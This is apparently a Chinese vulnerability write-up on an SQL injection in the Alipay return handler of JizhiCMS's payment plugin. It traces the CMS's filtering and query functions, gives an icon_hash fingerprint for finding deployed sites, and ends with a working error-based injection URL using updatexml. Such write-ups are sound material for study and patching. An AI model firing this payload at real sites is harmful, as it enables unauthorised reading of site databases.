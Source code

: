 # 极致CMS alipay_return_pay SQL注入漏洞

## 漏洞描述

极致CMS支付插件中存在SQL注入漏洞，通过漏洞可以获取数据库信息 

## 漏洞影响

<a-checkbox checked>极致CMS</a-checkbox></br>

## 网络测绘

<a-checkbox checked>icon_hash="1657387632"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1633500278668-c9cbbe05-5213-4454-a608-5f5cbe1c9e1b.png)

查看一下进行过滤的函数



```php
/**
	参数过滤，格式化
**/
function format_param($value=null,$int=0){
	if($value==null){ return '';}
	switch ($int){
		case 0://整数
			return (int)$value;
		case 1://字符串
			$value=htmlspecialchars(trim($value), ENT_QUOTES);
			if(version_compare(PHP_VERSION,'7.4','>=')){
				$value = addslashes($value);
			}else{
				if(!get_magic_quotes_gpc())$value = addslashes($value);
			}
			
			return $value;
		case 2://数组
			if($value=='')return '';
			array_walk_recursive($value, "array_format");
			return $value;
		case 3://浮点
			return (float)$value;
		case 4:
			if(version_compare(PHP_VERSION,'7.4','>=')){
				$value = addslashes($value);
			}else{
				if(!get_magic_quotes_gpc())$value = addslashes($value);
			}
			return trim($value);
	}
}

//过滤XSS攻击
function SafeFilter(&$arr) 
{
   $ra=Array('/([\x00-\x08,\x0b-\x0c,\x0e-\x19])/','/script/','/javascript/','/vbscript/','/expression/','/applet/'
   ,'/meta/','/xml/','/blink/','/link/','/style/','/embed/','/object/','/frame/','/layer/','/title/','/bgsound/'
   ,'/base/','/onload/','/onunload/','/onchange/','/onsubmit/','/onreset/','/onselect/','/onblur/','/onfocus/',
   '/onabort/','/onkeydown/','/onkeypress/','/onkeyup/','/onclick/','/ondblclick/','/onmousedown/','/onmousemove/'
   ,'/onmouseout/','/onmouseover/','/onmouseup/','/onunload/');
     
   if (is_array($arr))
   {
     foreach ($arr as $key => $value) 
     {
        if (!is_array($value))
        {
            if(version_compare(PHP_VERSION,'7.4','>=')){
				$value  = addslashes($value); 
			}else{
				if (!get_magic_quotes_gpc()){
					$value  = addslashes($value); 
				}
			}
          $value = preg_replace($ra,'',$value);     //删除非打印字符，粗暴式过滤xss可疑字符串
          $arr[$key]     = htmlentities(strip_tags($value)); //去除 HTML 和 PHP 标记并转换为 HTML 实体
        }
        else
        {
          SafeFilter($arr[$key]);
        }
     }
   }
}
```



看一下执行的SQL语句的函数



```php
 // 查询一条
    public function find($where=null,$order=null,$fields=null,$limit=1)
    {
	   if( $record = $this->findAll($where, $order, $fields, 1) ){
			return array_pop($record);
		}else{
			return FALSE;
		}
    }
```



跟进 findAll 函数



```php
// 查询所有
    public function findAll($conditions=null,$order=null,$fields=null,$limit=null)
    {
		$where = '';
		if(is_array($conditions)){
			$join = array();
			foreach( $conditions as $key => $value ){
				$value =  '\''.$value.'\'';
				$join[] = "{$key} = {$value}";
			}
			$where = "WHERE ".join(" AND ",$join);
		}else{
			if(null != $conditions)$where = "WHERE ".$conditions;
		}
      if(is_array($order)){
       		$where .= ' ORDER BY ';
            $where .= implode(',', $order);
      }else{
         if($order!=null)$where .= " ORDER BY  ".$order;
      }
		
		if(!empty($limit))$where .= " LIMIT {$limit}";
		$fields = empty($fields) ? "*" : $fields;
 
		$sql = "SELECT {$fields} FROM {$this->table} {$where}";
		
        return $this->getData($sql);
 
    }
```



在跟进一下getData函数



```php
//获取数据
	public function getData($sql)
	{
		if(!$result = $this->query($sql))return array();
		if(!$this->Statement->rowCount())return array();
		$rows = array();
		while($rows[] = $this->Statement->fetch(PDO::FETCH_ASSOC)){}
		$this->Statement=null;
		array_pop($rows);
		return $rows;
	}
```



跟进query执行函数



```php
//执行SQL语句并检查是否错误
	public function query($sql){
		$this->filter[] = $sql;
        $this->Statement = $this->pdo->query($sql);
        if ($this->Statement) {
			return $this;
        }else{
			$msg = $this->pdo->errorInfo();
			if($msg[2]) exit('数据库错误：' . $msg[2] . end($this->filter));
		}
	}
```



- ✅看到`$msg = $this->pdo->errorInfo();`语句，也就是说会把数据库报错信息打印在页面上并显示出来并退出
- ✅一套分析下来没有发现对sql语句的过滤，如果得到的数据没有经过`format_param`过滤，会产生注入



例如:

```php
function exploit(){
    M('member')->find(['username'=>$_GET['name']]);
}
```

如果直接这样GET POST REQUEST 带入数据库 会产生报错注入

例如  ./exploit/name=123'  (加一个引号会报错，如果引号没过滤)

现在只需要寻找类型是这样没过滤直接带入数据库的语句就行了

简单寻找下其实这样的地方挺多的，拿一个位置举例子

![img](/assets/PeiQi-Wiki/img/jizhi-5.jpg)



这里是一个支付插件的位置，蓝色方块1增加代码模拟开通支付宝功能通过验证



可以看到这个函数只使用[htmlspecialchars]来过滤了xss，sql语句没有过滤，用刚刚的方法来注入



![img](/assets/PeiQi-Wiki/img/jizhi-6.jpg)



可以看到的确出现了sql语句和数据库错误,直接报错注入获取敏感信息

`mypay/alipay_return_pay?out_trade_no=1%27 and updatexml(1,concat(0x7e,(select version()),0x7e),1)--+"`

![image-20220313235238670](/assets/PeiQi-Wiki/img/image-20220313235238670.png)